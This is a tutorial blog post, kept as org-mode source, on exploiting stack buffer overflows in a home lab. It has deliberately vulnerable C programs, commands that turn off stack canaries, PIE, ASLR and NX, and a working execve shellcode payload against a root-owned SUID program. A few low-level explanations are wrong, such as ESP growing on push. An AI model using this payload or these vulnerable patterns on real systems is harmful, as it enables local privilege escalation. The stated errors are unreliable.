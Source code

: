 #+title: Stack-based buffer overflows
#+description: todo
#+publishdate: 2023-10-20


* What's a buffer overflow?

Buffer overflows are a type of vulnerability where the attacker gives more data to a buffer than it can handle. As a result, the program overwrites adjacent memory locations with the exceeding data. Usually, the program will crash. However, a skilled hacker can take control of the program as it crashes and achieve incredible things, like access to a shell. Nowadays, there are some countermeasures in place. They make it much harder but not impossible. Especially if using languages like C or C++, that lets developers manage the memory.

There are two types of buffer overflows: stack-based and heap-based. In this post, we will talk about the first type.

* What's the stack?

Before jumping right into stack-based buffer overflows, we need to understand what a "stack" is in this context and how it works.

The stack is a region of memory reserved for each thread to store data. Each time you call a function, a stack frame is created where the arguments, the local variables and the return address are stored in a Last Input First Output (LIFO) manner. Once it finishes, the program "removes" the stack frame from the stack and resumes the execution of the caller thanks to the return address. Now, on the top of the stack, we have the stack frame from the resumed function. The program is ready to go.

Stack example:

#+begin_src dot :exports none :results none :file ../../../static/images/stack-based-buffer-overflow/stack-frame-graph.png :cmdline -Kdot -Tpng
  digraph {

  node [ shape = none fontname = Helvetica ]

  n1 [ label = <
  <table>
  <tr>
  <td>
  <table border="0" cellspacing="0">
  <tr><td border="1">Input parameters</td></tr>
  <tr><td border="1">Return address</td></tr>                         
  <tr><td border="1">Local variables</td></tr>
  </table>
  </td>
  <td >stack frame 1</td>
  </tr> 

  <tr>
  <td>
  <table border="0" cellspacing="0">
  <tr><td border="1">Input parameters</td></tr>
  <tr><td border="1">Return address</td></tr>                         
  <tr><td border="1">Local variables</td></tr>
  </table>
  </td>
  <td>stack frame 2</td>
  </tr> 
  </table>
  > ]
  }
#+end_src

[[/images/stack-based-buffer-overflow/stack-frame-graph.png]]


Great! We understand the basis of how the stack works at a high level. However, we still need to know the low-level details of that process if we want to exploit it. So, what's actually happening? How does the computer know which instruction to execute? How does the computer know how to resume the execution of the caller function? How does it create and remove the stack frame? That's all due to registers. The CPU of a computer use different registers to store data, transfer data, store instructions, ... We are interested in the Extended Instruction Pointer (EIP), which stores the memory address of the next instruction to execute; the Extended Stack Pointer (ESP), which points to the top of the stack frame; and the Extended Base Pointer (EBP), which points to the bottom of the stack frame. Whenever we call a function, the EBP will store the actual ESP. The end of the caller function stack frame is the beginning of the called function stack frame. Pushing data to the stack will increase the ESP. The EIP will point to the next instruction to execute. Once we reach the return statement, the ESP will be equal to EBP (removing the stack frame) and the EIP will be equal to the return address. The process is much more complex than that. For instance, I'm not explaining how the EBP is restored. I encourage you to do some further research about the topic. I don't think we need more for that post.

We should have a clear idea of how stack frames work and some lower details. We are ready to exploit some programs. 

* Stack based buffer overflows

Relevant system information:

- Linux 5.15.0-86-generic x86_64
- Intel(R) Core(TM) i7-10510U CPU
- Little Endian
- 48 bits address size

All the vulnerable programs are from *Hacking: The Art of Exploitation, 2nd Edition*. They may contain modification to use in modern machines. You can get the original source code https://github.com/intere/hacking/blob/master/booksrc.

** Overwrite local variable in stack frame

Let's start with the ~auth_overflow.c~.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int check_authentication(char *password) {
    int auth_flag = 0;
    char password_buffer[16];

    strcpy(password_buffer, password);
	
    if(strcmp(password_buffer, "brillig") == 0)
      auth_flag = 1;
    if(strcmp(password_buffer, "outgrabe") == 0)
      auth_flag = 1;

    return auth_flag;
  }

  int main(int argc, char *argv[]) {
    if(argc < 2) {
      printf("Usage: %s <password>\n", argv[0]);
      exit(0);
    }
    if(check_authentication(argv[1])) {
      printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
      printf("      Access Granted.\n");
      printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    } else {
      printf("\nAccess Denied.\n");
    }
  }
#+end_src

The program is simple. It receives a password. If it's equal to "brillig" or "outgrabe" we will see the message "Access Granted", otherwise, we will see "Access Denied". With a buffer overflow, we can get the "Access Granted" message even when the password is invalid.

The error is inside the ~check_authentication~ function, which copies the ~password~ data to the ~password_buffer~ without checking the length. Notice that the ~password_buffer~ can hold a maximum of 16 bytes. In other words, the program will reserve 16 bytes in the stack for that variable. Nevertheless, the data behind the ~password~ pointer can hold a larger array of characters. The idea here is to give the program a password longer than 16 bytes so that when the data is copied into the ~password_buffer~, the extra bytes overwrite the ~auth_flag~. That's the boolean that decides the message to be shown. If we can control it, we can control the printed message. Remember that the stack frame is a LIFO. Hence, the ~password_buffer~ will be on top of the ~auth_flag~.

Let's compile the program and execute it with a bigger password than expected.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow
./auth_overflow "password"
#+end_src

I've tried with several lengths. With 25 characters, the program fails.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow-stack-smashing.png]]

There's something curious, though. The function variables only take 20 bytes, 16 for the ~password_buffer~ and 4 for the ~auth_flag~, but we need 25 bytes to make it fail. I did some research, and it seems like it could be related to some padding that the compiler or the system is adding between variables. In any case, the program is failing with "stack smashing". That tells us that the compiler detected the buffer overflow attack and stoped the execution. Current versions of GCC use "canaries" to detect buffer overflows. It adds some data in the stack frame at the beginning of the function and expects that it remains unchanged when exiting it. Let's disable that for our learning.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow -fno-stack-protector
#+end_src

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow-no-stack-protector.png]]

With canaries disabled, let's see how many bytes are between the ~password_buffer~ and the ~auth_flag~. That will tell us the password length needed to overwrite the ~auth_flag~. For that, we can use gdb. It's only a matter of placing a breakpoint inside the vulnerable function and checking the memory addresses.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow -fno-stack-protector -g # -g option adds debug symbols
gdb ./auth_overflow
#+end_src

#+attr_html: :width 1275px
#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow-gdb-variables-distance.png]]

There are 28 bytes between the two variables. That means that we need a password with 29 characters. The first 28 to fill the space between the variables, and the last one to overwrite the ~auth_flag~. We need it to be different to 0. For example, "a" should overwrite the ~auth_flag~ value with its ASCII decimal value (97). We can see that in action by placing a couple of breakpoints. One before the ~strcpy~ and one after.

#+attr_html: :width 1275px
#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow-auth-flag-new-value.png]]

That's it! We got the "Access Granted" message.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow-access-granted.png]]

** Overwrite return address

The first example is limited, right? We can do something interesting only if the variable we want to overwrite is stored in the stack before the one we are using to exploit it. What could we do if the variable is not there or appears after? The idea in that situation is to overwrite the return address.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int check_authentication(char *password) {
    char password_buffer[16];

    strcpy(password_buffer, password);
	
    int auth_flag = 0;
    if(strcmp(password_buffer, "brillig") == 0)
      auth_flag = 1;
    if(strcmp(password_buffer, "outgrabe") == 0)
      auth_flag = 1;

    return auth_flag;
  }

  int main(int argc, char *argv[]) {
    if(argc < 2) {
      printf("Usage: %s <password>\n", argv[0]);
      exit(0);
    }
    if(check_authentication(argv[1])) {
      printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
      printf("      Access Granted.\n");
      printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    } else {
      printf("\nAccess Denied.\n");
    }
  }
#+end_src

First, compile it without security protections and debug symbols. Here we added the ~no-pie~ option. PIE stands for Position Independent Executable. If enabled, the executable will be loaded in a different memory address every time.

#+begin_src bash
gcc auth_overflow2.c -o auth_overflow2 -fno-stack-protector -no-pie -g
#+end_src

Now, where is the return address? How can we overwrite it? As in the first example, gdb is our friend. We can put a breakpoint inside ~check_authentication~, run and execute ~info frame~. The ~rip~ register contains the return address.

#+attr_html: :width 1275px
#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow2-info-frame.png]]

At this point, it's a matter of trying several passwords until we find the number of bytes till the ~rip~ register. Same procedure as in the first example. Writing a password with 40 "a" and 3 "b" will overwrite the ~rip~ with the ASCII value of "bbb" (0x626262).

#+attr_html: :width 1275px
#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow2-overwrite-rip.png]]

That's cool, but we want to overwrite the ~rip~ to change the code flow and show us the "Access Granted" message. We can disassemble the main function to see where the ~print~ functions are and get the memory address for the first ~print~. The +86 memory address points to the conditional before the prints. We can take the next address. If PIE was enabled, this wouldn't be that easy. The address would change every time we run it.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow2-access-granted-address.png]]

Replacing "bbb" with "\x7f\x12\x40" gives us the "Access Granted" message. We add the memory address in reverse because my machine uses Little Endian.

#+attr_html: :width 1275px
#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/auth-overflow2-access-granted.png]]

** Get shell

The second example was a bit more interesting, but still limited. In this final example, we are going to see how to get access to a shell.

We have two small programs. The first program creates notes in "/var/notes". root must own the executable and have the SUID activated. That way, we can execute it with normal users as if it was root.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <fcntl.h>
  #include <sys/stat.h>
  #include "hacking.h"

  void usage(char *prog_name, char *filename)
  {
    printf("Usage: %s <data to add to %s>\n", prog_name, filename);
    exit(0);
  }

  void fatal(char *);            // A function for fatal errors
  void *ec_malloc(unsigned int); // An error-checked malloc() wrapper

  int main(int argc, char *argv[])
  {
    int userid, fd; // File descriptor
    char *buffer, *datafile;

    buffer = (char *)ec_malloc(100);
    datafile = (char *)ec_malloc(20);
    strcpy(datafile, "/var/notes");

    if (argc < 2)                 // If there aren't command-line arguments,
      usage(argv[0], datafile); // display usage message and exit.

    strcpy(buffer, argv[1]); // Copy into buffer.

    printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
    printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);

    // Opening the file
    fd = open(datafile, O_WRONLY | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
    if (fd == -1)
      fatal("in main() while opening file");
    printf("[DEBUG] file descriptor is %d\n", fd);

    userid = getuid(); // Get the real user ID.

    // Writing data
    if (write(fd, &userid, 4) == -1) // Write user ID before note data.
      fatal("in main() while writing userid to file");
    write(fd, "\n", 1);                          // Terminate line.
    if (write(fd, buffer, strlen(buffer)) == -1) // Write note.
      fatal("in main() while writing buffer to file");

    write(fd, "\n", 1); // Terminate line.
    // Closing file
    if (close(fd) == -1)
      fatal("in main() while closing file");
    printf("Note has been saved.\n");
    free(buffer);
    free(datafile);
  }
#+end_src

#+begin_src bash
  gcc notetaker.c -o notetaker -g
  sudo chown root:root notetaker
  sudo chmod u+s notetaker
  ./notetaker "example message"
#+end_src

The second program, the vulnerable one, is used to search notes for the current user. Optionally, we can show only the messages that contain a specific string.

#+begin_src c
  #include <stdio.h>
  #include <string.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <sys/stat.h>
  #include "hacking.h"

  #define FILENAME "/var/notes"

  int print_notes(int, int, char *); // Note printing function.
  int find_user_note(int, int);      // Seek in file for a note for user.
  int search_note(char *, char *);   // Search for keyword function.
  void fatal(char *);                // Fatal error handler

  int main(int argc, char *argv[])
  {
    int userid, printing = 1, fd; // File descriptor
    char searchstring[100];
    if (argc > 1)                      // If there is an arg,
      strcpy(searchstring, argv[1]); // that is the search string;
    else                               // otherwise,
      searchstring[0] = 0;           // search string is empty.
    userid = getuid();
    fd = open(FILENAME, O_RDONLY); // Open the file for read-only access.
    if (fd == -1)
      fatal("in main() while opening file for reading");
    printf("%i", printing);
    while (printing)
      printing = print_notes(fd, userid, searchstring);
    printf("-------[ end of note data ]-------\n");
    close(fd);
  }

  // A function to print the notes for a given uid that match
  // an optional search string;
  // returns 0 at end of file, 1 if there are still more notes.
  int print_notes(int fd, int uid, char *searchstring)
  {
    int note_length;
    char byte = 0, note_buffer[100];
    note_length = find_user_note(fd, uid);
    if (note_length == -1)                      // If end of file reached,
      return 0;                               // return 0.
    read(fd, note_buffer, note_length);         // Read note data.
    note_buffer[note_length] = 0;               // Terminate the string.
    if (search_note(note_buffer, searchstring)) // If searchstring found,
      printf(note_buffer);                    // print the note.
    return 1;
  }

  // A function to find the next note for a given userID;
  // returns -1 if the end of the file is reached;
  // otherwise, it returns the length of the found note.
  int find_user_note(int fd, int user_uid)
  {
    int note_uid = -1;
    unsigned char byte;
    int length;
    while (note_uid != user_uid)
      {                                                        // Loop until a note for user_uid is found.
        if (read(fd, &note_uid, 4) != 4) // Read the uid data.
          return -1;                                       // If 4 bytes aren't read, return end of file code.
        if (read(fd, &byte, 1) != 1)                         // Read the newline separator.
          return -1;
        byte = length = 0;
        while (byte != '\n')
          {                                // Figure out how many bytes to the end of line.
            if (read(fd, &byte, 1) != 1) // Read a single byte.
              return -1;               // If byte isn't read, return end of file code.
            length++;
          }
      }
    lseek(fd, length * -1, SEEK_CUR); // Rewind file reading by length bytes.
    printf("[DEBUG] found a %d byte note for user id %d\n", length, note_uid);
    return length;
  }

  // A function to search a note for a given keyword;
  // returns 1 if a match is found, 0 if there is no match.
  int search_note(char *note, char *keyword)
  {
    int i, keyword_length, match = 0;
    keyword_length = strlen(keyword);
    if (keyword_length == 0) // If there is no search string,
      return 1;            // always "match".
    for (i = 0; i < strlen(note); i++)
      {                                  // Iterate over bytes in note.
        if (note[i] == keyword[match]) // If byte matches keyword,
          match++;                   // get ready to check the next byte;
        else
          {                              // otherwise,
            if (note[i] == keyword[0]) // if that byte matches first keyword byte,
              match = 1;             // start the match count at 1.
            else
              match = 0; // Otherwise it is zero.
          }
        if (match == keyword_length) // If there is a full match,
          return 1;                // return matched.
      }
    return 0; // Return not matched.
  }
#+end_src

#+begin_src bash
  gcc notesearch.c -o notesearch -fno-stack-protector -no-pie -g
  sudo chown root:root notesearch
  sudo chmod u+s notesearch
  ./notesearch "example"
#+end_src

We need to disable the Adress Space Layout Randomization (ASLR) to avoid random memory addreses.

#+begin_src bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
#+end_src

You may be wondering if ASLR and PIE do the same. Both disable the randomization of memory addresses for executables. That's true. However, they randomize different things. ASLR is a kernel protection feature, and it has three levels in Linux:

0. Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter (in Linux).
1. Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
2. Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

PIE is a binary protection feature that places the "code segment", the "global offset table" and their "procedure linkage table" at random locations.

The last security protection we need to [[https://superuser.com/a/1385242][disable is the NX bit]]. That will make the stack executable. In other words, we will be able to execute the shellcode.

Let's take a step back. Where is the vulnerability? The notetaker ~main~ function calls ~strcpy~. Again, there's no control over the length of the copied data. The high-level idea is the same as in the last exercise. We want to overwrite the return address to take control of the flow. The way to find it is the same. However, the payload is structured differently. We aren't going to send a bunch of "a" followed by a memory address in the executable. We want to build a payload that looks like: "NOP sled, shellcode, some more NOP operations, NOP sled address". Let me explain each part.

First, we have the "NOP sled". A NOP is a no-operation instruction that CPUs include for timing purposes, among other things. In our case, we use them to force the computer to slide into the shellcode we introduced in the stack. Theoretically, you could do it without the aid of a "NOP sled", but it becomes much harder. You will have problems with memory alignment and other low-level stuff that I lack knowledge of. Moreover, the compiler is picky and won't allow you to execute the shellcode from whatever memory address you want.

Then, we have the shellcode. A small piece of code built in assembler to execute some code. In that example, to give us access to a shell.

Following the shellcode, we find some more NOP operations. Sometimes, shellcodes need to write some bytes after themselves. The compiler can complain about that. These NOP operations will help us.

The last part is the return address. We will overwrite it with a memory address where the NOP sled is located.

That's it for the structure. Coming back to the exploit, on my first try I used a "NOP sled, shellcode, NOP sled address" structure. It didn't work for multiple reasons. NX bit wasn't disabled and ASLR wasn't disabled.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/notesearch-stack.png]]

After disabling them, the issue was creating the correct payload. Sometimes, the execution failed with a SEGFAULT and sometimes with a SIGILL. Trying a myriad of different payload structures and lengths for the NOP operations, I finally crafted a payload that worked using gdb.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/notesearch-gdb-exploit.png]]

This payload doesn't work outside gdb. The environment in which we execute the exploit can modify the position of the variables in the stack. For example, the environment variables used on gdb differ from the ones on the shell. To circumvent that issue, we can pass the environment variables to gdb.

#+begin_src bash
  env gdb notesearch
#+end_src

The path from where you execute the exploit is also relevant. ~./notesearch $(perl -e 'print "\x90" x 57, "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05", "\x90" x 40, "\x90\xe3\xff\xff\xff\x7f\x00\x00"')~ didn't work for me, while ~~/Desktop/overflow/notesearch $(perl -e 'print "\x90" x 57, "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05", "\x90" x 40, "\x90\xe3\xff\xff\xff\x7f\x00\x00"')~ worked.

#+attr_html: :class centered-image
[[/images/stack-based-buffer-overflow/notesearch-final-exploit.png]]

That's it!!! We got our shell. In theory, we should get root access due to the SUID permissions. However, some shells now throw SUID permissions when spawning new shells from a process with SUID to avoid this kind of attacks. More stuff to learn in the future!


* How can we prevent buffer overflows?

DON'T COPY DATA WITHOUT CHECKING THE LENGTH!

Most people forget to do that, so luckily, there are some security features that mitigate the attack. We have seen a some of them during the exercise: canaries, PIE, ASLR or NX bit.

* Conclusion

Now we know what a stack based buffer overflow is, why it works, how to exploit it and some protections mechanisms. We don't have an execuse to avoid them.
